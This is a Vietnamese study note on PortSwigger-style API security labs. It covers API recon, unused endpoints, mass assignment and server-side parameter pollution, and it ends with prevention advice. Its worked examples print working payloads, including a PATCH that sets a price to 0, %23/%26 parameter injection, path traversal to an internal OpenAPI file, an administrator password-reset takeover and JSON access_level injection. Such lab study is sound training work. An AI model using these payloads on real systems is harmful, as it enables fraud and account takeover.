# Lý thuyết

- APIs (Application Programming Interfaces) : cho phép các hệ thống phần mềm và ứng dụng giao tiếp và chia sẻ dữ liệu. 

- Giới thiệu với RESTful API và JSON API.

## API Recon

- Tìm càng nhiều thông tin thì càng có nhiều attack surface

- note:

    + (0.1) Xác định API endpoint: nơi một API nhận request về một tài nguyên cụ thể trên server
(VD: `/api/books`; `/api/books/mystery`)
    
    + (0.2) Xác định cách tương tác với chúng 

        + (0.2.1) Input data mà API xử lý, bao gồm cả tham số bắt buộc và tùy chọn. 

        + (0.2.2) Các loại request mà API chấp nhận, bao gồm các HTTP method và media format.

        + (0.2.3) Rate limit và cơ chế xác thực

# Exploiting an API endpoint using documentation - Khai thác API endpoint bằng tài liệu

## Lý thuyết

- API thường được ghi lại (documented) để các developer dễ sử dụng và tích hợp

- Tài liệu (document) có dạng dạng người đọc hoặc máy đọc. 

    + dạng người đọc: detailed explanations, examples, and usage scenarios.

    + dạng máy đọc: dạng JSON hoặc XML.

- Thường được cung cấp công khai

**Note:**

- (1) Bắt đầu quá trình điều tra của bạn bằng - cách xem lại tài liệu:

- (2) Discovering API documentation (khi tài liệu API không có sẵn công khai):

    + (2.1) Sử dụng Burp Scanner để crawl API, hoặc duyệt thủ công

    + (2.2) Các endpoint có thể là API Documention:

        + /api
        + /swagger/index.html
        + /openapi.json

    + (2.3) với đường dẫn /api/swagger/v1/users/123 thì nên kiểm tra (`/api/swagger/v1`, `/api/swagger/`, `/api`):
    
- (3) Với machine-readable documentation: sử dụng các automated tools để tìm - phân tích:

    + Burp Scanner: với tài liệu OpenAPI hoặc bất kỳ tài liệu nào khác ở định dạng JSON hoặc YAML.

    + BApp OpenAPI Parser: với tài liệu OpenAPI

    + Postman, SoapUI....

## Ví dụ 



(note 2.3 + đổi method)



-> tìm được document

->  VD:  Khai thác API endpoint bằng tài liệu



# Finding and exploiting an unused API endpoint - tìm và khai thác các API không còn được sử dụng

## Lý thuyết:

- Đôi khi tài liệu có thể không chính xác hoặc lỗi thời, vì vậy thu thập nhiều thông tin bằng cách duyệt các ứng dụng vẫn cần thiêt. 

- Có thể sử dụng Burp Scanner, sau đó test thủ công, tìm attack surface; nếu muốn mạnh hơn có thể kết hợp sử dụng JS Link Finder BApp.

- Tương tác với API endpoint

    + HTTP method:

        + GET - Lấy dữ liệu 
        
        + PATCH - Áp dụng các thay đổi một phần 

        + OPTIONS - lấy thông tin các method có thể được sử dụng

        + POST

        + DELETE...

    + Supported content-type

    
**Note**

- (4) Khi duyệt hãy chú ý đến cấu trúc url đặc biệt (VD: /api/); ngoài ra hãy chú ý cả các tệp JS - có thể chứa tham chiếu đến các API endpoint - sử dụng JS Link Finder BApp để trích xuất mạnh hơn...

- (5) Sử dụng Burp Repeater và Burp Intruder để tương tác với API endpoint - quan sát các hành vi -> tìm attack-surface (VD: thay đổi HTTP method/media type) - xem kí thông báo lỗi/ phản hồi -> xây dựng yêu cầu hợp lệ. Sử dụng HTTP verbs được tích hợp trong Burp Intruder để tự động chuyển qua một loạt các method -> lưu ý cẩn thận để tránh hậu quả không đáng...; thay đổi content-type có thể lấy được thông tin từ thông báo lỗi hoặc bypass một số cơ chế phòng thủ hay tận dụng những khác biệt trong cơ chế xử lý... (XML - JSON...)

    + (5.1) Các mục đích thường dùng của một số method:

        + GET - Lấy dữ liệu 
            
        + PATCH - Thay đổi một phần dữ liệu 

        + OPTIONS - lấy thông tin các method có thể được sử dụng

        + POST

        + DELETE...

## Ví dụ 

### Tóm tắt 



vd-2-note-1: cấu trúc /api/products/1/price

Note (5) -> thay đổi method:



-> Có cho phép method GET/PATCH

Note (5.1) -> PATCH : Thay đổi một phần dữ liệu

-> có khả năng thay đổi giá 

### Test (1)

(1.1)



note: Chỉ chấp nhận dữ liệu json

(1.2)

input: 

{"type":"ClientError","code":400,}

output:

{"type":"ClientError","code":400,"error":"Could not parse JSON"}



-> server nhận dữ liệu json này và thử phần tích

(1.3)

input:

{"type":"ClientError","code":400}

output: 

{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}

note: yêu cầu có tham số "price"

### Phân tích

- (a): Note (5.1) -> PATCH : Thay đổi một phần dữ liệu 

- (b): note: Chỉ chấp nhận dữ liệu json

- (c): note: yêu cầu có tham số "price"

(a) + (b) + (c) => có khả năng thay đổi giá

### Attack surface và Untrusted Data

- Attack surface: Cơ chế quản lý api 

- Untrusted data: HTTP request...

### Tận dụng + Hậu quả



input: {"price":0}

output: {"price":"$0.00"}

-> thay đổi giá sản phẩm

Mua thành công:



# Exploiting a *mass assignment* vulnerability

## Lý thuyết

- Tham số ẩn (hidden parameters): tham số không có trong API document

-> Burp bao gồm nhiều công cụ có thể giúp bạn xác định các tham số ẩn (Param miner BApp ,  Content discovery)

- Mass assignment (= auto-binding) (gán hàng loạt - tự động liên kết): hiện tượng software framework tự động liên kết (bind) các request parameter với các field (trường) trong một internal object do đó dẫn đến kết quả của tham số được ứng dụng hỗ trợ (application supporting parameter) nằm ngoài dự định của developer
-> tạo ra các hidden parameters ngoài ý muốn

**Note**

- (6): Khi tìm được 1 api endpoint, có thể FUZZ để tìm endpoint ẩn

VD: 

endpoint:

PUT /api/user/update

-> sử dụng Burp Intruder để fuzz -> VD /api/user/*FUZZ*

trong đó *FUZZ*: từ trong danh sách từ dựa trên quy ước đặt tên API phổ biến và thuật ngữ ngành

- (7) Mass assignment tạo ra các tham số từ các trường trong object -> thường xảy ra trường hợp các parameter ẩn có thể được tìm thấy thủ công bằng cách kiểm tra các object được trả về:

VD:

Request 1: PATCH /api/users/ - cho phép user cập nhật thông tin username và email theo định dạng json với input

{
    "username": "wiener",
    "email": "wiener@example.com",
}

Request 2: GET /api/users/123 - cho phép lấy thông tin user có id = 123; ouput trả về là: 

{
    "id": 123,
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": "false"
}

-> có thể có tham số ẩn id và isAdmin được liên kết (bind) với user object...

## Ví dụ



-> GET và POST -> note (5.1)



-> note (7):



-> thành công

# Exploiting server-side parameter pollution in a query string

## Lý thuyết

- Một số hệ thống chứa các API nội bộ không thể truy cập trực tiếp từ internet.

- Server-side parameter pollution: 

    + Xảy ra khi một website nhúng user input vào một request từ server (server-side request) tới một api nội bộ mà không mã hóa thích hợp =>
        
        + Ghi đè tham số đã có

        + Sửa đổi hành vi của ứng dụng

        + Truy vập dữ liệu của ứng dụng trái phép

    (các loại input hay gặp: query parameters, form fields, headers, URL path parameters )

    + Còn được gọi là HTTP parameter pollution/ WAF Bypass ; khác với server-side prototype pollution

- Query string: Chuỗi truy vẫn được phân tích theo một cú pháp được quy ước...

**Note**

- (8) Để kiểm tra server-side parameter pollution trong query-string có thể thử theo các bước sau:

    + (8.1) Đặt các ký tự cú pháp như #;&;= trong input và quan sát cách phản hồi

        + (8.1.1) Ký tự # thường được sử dụng để cắt ngắn 

        + (8.1.2) Ký tự & thường được sử dụng để thêm tham số =>

            + Chèn các tham số không tồn tại; phân tích phản hồi

            + Tìm các tham số ẩn rồi chèn

            + Ghi đè tham số đã có (thêm tham số trùng tên): mỗi ngôn ngữ lập trình sẽ có cách xử lý khác nhau (PHP chỉ phân tích tham số cuối cùng; ASP.NET kết hợp cả hai tham số; Node.js/express chỉ phân tích tham số đầu tiên...)

VD:

Client -> Server:

GET /userSearch?name=peter&back=/home

Server:

Front-end -> Back-end: 

GET /users/search?name=peter&publicProfile=true

-> Test: input: name=peter%23foo&back=/home

Client -> Server:

GET /userSearch?name=peter%23foo&back=/home

Server:

Front-end -> Back-end: 

GET /users/search?name=peter#foo&publicProfile=true

(
    
Hiện tượng trên xảy ra khi nhúng user input vào một request từ server (server-side request) tới một api nội bộ mà không mã hóa thích hợp (%23)

Trong trường hợp này ta phải mã hóa URL ký tự #. Nếu không, front-end app sẽ hiểu nó là mã định danh phân đoạn và nó sẽ không được chuyển tới API nội bộ.

)

- 
    + (8.2): Quan sát + kiểm tra response để kết luận xem req đã được xử lý như thế nào
    
VD: nếu VD ở (8.1) trả về response với tên người dùng là peter thì có khả năng server-side query đã bị cắt ngắn; nếu phản hồi là `Invalid name` thì có khả năng server-side query được giữ nguyên ...

## Ví dụ

### Tóm tắt

- GET /product?productId=1 : lấy thông tin sản phẩm

- /forgot-password: endpoint xử lý tính năng quên mật khẩu, sử dụng query-string trong post method

    + GET: lấy giao diện

    + POST: sử dụng input được post lên để xử lý

    

- note (A): chức năng forgot-password này có khả năng là thông qua một số bước nào đó để lấy được resetToken sau đó sử dụng endpoint /forgot-password?reset_token=*token* để đặt lại mật khẩu





### Test (1)

- /forgot-password

(1.1)

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator



output: {"result":"*****@normal-user.net","type":"email"}

(1.2)

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator#



output: {"error": "Field not specified."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator%23



output: {"error": "Field not specified."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as%23username=administrator



output: {"error": "Field not specified."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as%26username=administrator



output: {"type":"ClientError","code":400,"error":"Invalid username."}

-> (a): Kí tự # có khả năng cắt các tham số ẩn khỏi chuỗi truy vấn của front-end server -> backend server trả về lỗi các trường không đủ ; inject thành công với '%23'

(1.3)

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator&username=as

output: {"type":"ClientError","code":400,"error":"Invalid username."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as&username=administrator



output: {"result":"*****@normal-user.net","type":"email"}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as%26username=administrator

output: {"type":"ClientError","code":400,"error":"Invalid username."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator%26xyx=foo

output: {"error": "Parameter is not supported."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator%26username=a



output: {"result":"*****@normal-user.net","type":"email"}

-> (b): inject được '%26', có khả năng front-end server phân tích qua truy vấn và với các tham số trùng nhau thì chỉ tính giá trị cuối cùng, back-end server thì với các tham số trùng nhau thì chỉ trả về kq tham cho tham số đầu tiên; với các tham số không tồn tại thì trả về output: {"error": "Parameter is not supported."}

### Phân tích

- /forgot-password

(A): chức năng forgot-password này có khả năng là thông qua một số bước nào đó để lấy được resetToken sau đó sử dụng endpoint /forgot-password?reset_token=*token* để đặt lại mật khẩu

(a): Kí tự # có khả năng cắt các tham số ẩn khỏi chuỗi truy vấn của front-end server -> backend server trả về lỗi các trường không đủ ; inject thành công với '%23'

(b): inject được '%26', có khả năng front-end server phân tích qua truy vấn và với các tham số trùng nhau thì chỉ tính giá trị cuối cùng, back-end server thì với các tham số trùng nhau thì chỉ trả về kq tham cho tham số đầu tiên; với các tham số không tồn tại thì trả về output: {"error": "Parameter is not supported."}

(a) + (b) => có khả nằng đi tìm các tham số ẩn (FUZZ), đặt giá trị mong muốn cho tham số này để đạt được mật khẩu trả về; cắt bỏ phần giá trị mặc định server gắn cho các tham số mặc định này

(c) + (2.1) => brute force giá trị field

### Attack surface và Untrusted data

- Attack surface: api phục vụ tính năng quên mật khẩu

= Untrusted data: input query string được post lên

### Test (2)

-> ở Test (1.2) :

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as%23username=administrator

output: {"error": "Field not specified."}

=> (c) Mang nghĩa là thiếu tham số field 
    
(2.1):

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator%26field=a



output: {"type":"ClientError","code":400,"error":"Invalid field."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator%26field=a%23

output: {"type":"ClientError","code":400,"error":"Invalid field."}

(2.2)





...

+ (A) => giá trị của field có thể  là reset-token/resetToken/token/reset_token ; KQ là reset_token



-> thành công



# Exploiting server-side parameter pollution in a REST URL

## Lý thuyết

- REST URL: có thể triển khai API RESTful bằng cách đặt parameter names và parameter values trong URL Path - URL Path này được gọi là REST URL

VD: /api/users/123

/api: root của api endpoint

/users: tên một resource (users)

/123: giá trị một tham số (userID)
 
Client -> Server:

GET /edit_profile.php?name=peter

Server

Front-end -> Back-end:

GET /api/private/users/peter

->

Client -> Server:

GET /edit_profile.php?name=peter%2f..%2fadmin

Server

Front-end -> Back-end:

GET /api/private/users/peter/../admin

**Note**

- (9): thường kết hợp với kĩ thuật path traversal; sử dụng các ký tự đặc biệt không dành cho đưởng dẫn - route (VD %23 ~ # ...) rồi phân tích phản hồi, chú ý một số từ khóa (VD: "route" ...)

    + (9.1): có thể tìm root api endpoint bằng cách inject nhiều "../" rồi phân tích phản hồi

    + (9.2): Một số ht api có thể cho thông tin khi yc các file như `openapi.json%23`,...

    + (9.3): REST URL có thể có cấu trúc TIENTO/<input>/HAUTO ; `%23` (~#) có thể giúp bỏ qua HAUTO

## Ví dụ

### Tóm tắt

- /forgot-password: endpoint xử lý tính năng quên mật khẩu, sử dụng query-string trong post method

    + GET: lấy giao diện

    + POST: sử dụng input được post lên để xử lý

- note (A): chức năng forgot-password này có khả năng là thông qua một số bước nào đó để lấy được resetToken sau đó sử dụng endpoint /forgot-password?reset_token=*token* để đặt lại mật khẩu

### Test (1)

- (1.1)

input: csrf=jnRtU9asnb4q1I8nHSMn86FSxy96SJHW&username=administrator%23



output: 
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&

username=administrator%2f..%2fadministrator


output: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=administrator%2f..%2fadministrator

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=administrator%2f..%2fadministrator%26foo=xyz



output:
{
  "type": "error",
  "result": "The provided username \"administrator&foo=xyz\" does not exist"
}

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=administrator%2f..%2f..%2fusers%2fadministrator



output: {"result":"*****@normal-user.net","type":"email"}

-> note (1.1) có khả năng server-side sử dụng REST URL có cấu trúc: .../users/*username* 

- (1.2)

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f



output:
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f..%2f



output:
`{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    
The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}`

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f..%2fapi



output: {
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}

note (1.2) có khả năng server-side sử dụng REST URL có cấu trúc: api/.../users/*username* 

### Phân tích

- Test (1) có khả năng server-side sử dụng REST URL có cấu trúc: api/.../users/*username* 

- note (A): chức năng forgot-password này có khả năng là thông qua một số bước nào đó để lấy được resetToken sau đó sử dụng endpoint /forgot-password?reset_token=*token* để đặt lại mật khẩu

### Attack surface & Untrusted data

- Attack surface: cơ chế gọi api server side 

- Untrusted data: input username,...

### Test (2)

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f..%2fopenapi.json%23


output:
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}

=


-> /api/internal/v1/users/{username}/field/{field}

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator



output: 
{"result":"*****@normal-user.net","type":"email"}

input: ..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator%2ffield%2femail



output:{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}

input: ..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator%2ffield%2femail%23



output:{"result":"*****@normal-user.net","type":"email"}

-> note (2.1) có khả năng có hậu tố (/field/email)

-> `/forgot-password?passwordResetToken=${resetToken}`

-> OK:



# Server-side parameter pollution in structured data formats

- Structured data formats: định dạng dữ liệu có cấu trúc (JSON/XML...) 

VD: Ứng dụng cho phép chỉnh sửa tên user thông qua thủ tục

Client -> Server:

POST /myaccount
name=peter

Server

Front-end -> Back-end

PATCH /users/7312/update
{"name":"peter"}

=>

Client -> Server:

POST /myaccount
name=peter","access_level":"administrator

Server

Front-end -> Back-end

PATCH /users/7312/update
{name="peter","access_level":"administrator"}

**Note**

- (10): đưa dữ liệu có cấu trúc không mong muốn vào user input rồi xem phản hồi

    (10.1): nếu client input là dạng json thì có thể chèn `\"` để inject `"`

# Automated tools

- Burp Scanner 

- Backslash Powered Scanner BApp

# Preventing vulnerabilities in APIs

- Bảo mật API document nếu không muốn API của mình có thể truy cập công khai.

- Đảm bảo API document được cập nhật để tester hợp pháp có thể thấy đủ attack surface của API.

- Sử dụng Allow list cho các HTTP method được cho phép

- Xác thực Content-type đúng cho mỗi req và res

- Sử dụng thông báo lỗi chung chung để tránh cung cấp thông tin có thể hữu ích cho kẻ tấn công.

- Sử dụng các biện pháp bảo vệ trên tất cả các phiên bản API của bạn, không chỉ phiên bản sản xuất hiện tại.

- Để ngăn chặn mass assignment vulnerabilities, tạo allow list gồm các thuộc tính mà người dùng có thể cập nhật ; blocklist gồm các thuộc tính nhạy cảm mà người dùng không có quyền cập nhật.

# Preventing server-side parameter pollution

- Áp dụng allow list để xác định các ký tự không cần encode 

- Đảm bảo user input đều được encode trước khi thực hiện server-side request 

- Đảm bảo rằng tất cả dữ liệu đầu vào tuân thủ định dạng và cấu trúc dự kiến